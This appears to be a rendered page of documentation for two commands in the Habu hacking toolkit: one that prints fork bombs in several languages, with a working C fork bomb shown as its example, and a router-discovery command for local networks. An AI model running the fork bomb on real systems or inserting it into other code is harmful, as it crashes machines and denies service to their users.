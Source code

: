 
## habu.forkbomb


``` {.sourceCode .bash}
Usage: habu.forkbomb [OPTIONS] [bash|batch|c|haskell|perl|php|python|ruby]

  A shortcut to remember how to use fork bombs in different languages.

  Currently supported: bash, batch, c, haskell, perl, php, python, ruby.

  Example:

  $ habu.forkbomb c
  #include <unistd.h>
  int main()
  {
      while(1)
      {
          fork();
      }
      return 0;
  }

Options:
  --help  Show this message and exit.
```


## habu.gateway.find


``` {.sourceCode .bash}
Usage: habu.gateway.find [OPTIONS] NETWORK

  Try to reach an external IP using any host has a router.

  Useful to find routers in your network.

  First, uses arping to detect alive hosts and obtain MAC addresses.

  Later, create a network packet and put each MAC address as destination.

  Last, print the devices that forwarded correctly the packets.

  Example:

  # habu.find.gateway 192.168.0.0/24
  192.168.0.1 a4:08:f5:19:17:a4 Sagemcom
  192.168.0.7 b0:98:2b:5d:22:70 Sagemcom
  192.168.0.8 b0:98:2b:5d:1f:e8 Sagemcom

Options:
  -i TEXT                Interface to use
  --host TEXT            Host to reach (default: 8.8.8.8)
  --tcp                  Use TCP instead of ICMP
  --dport INTEGER RANGE  Destination port for TCP (default: 80)
  --timeout INTEGER      Timeout in seconds (default: 5)
  -v                     Verbose output
  --help                 Show this message and exit.
```
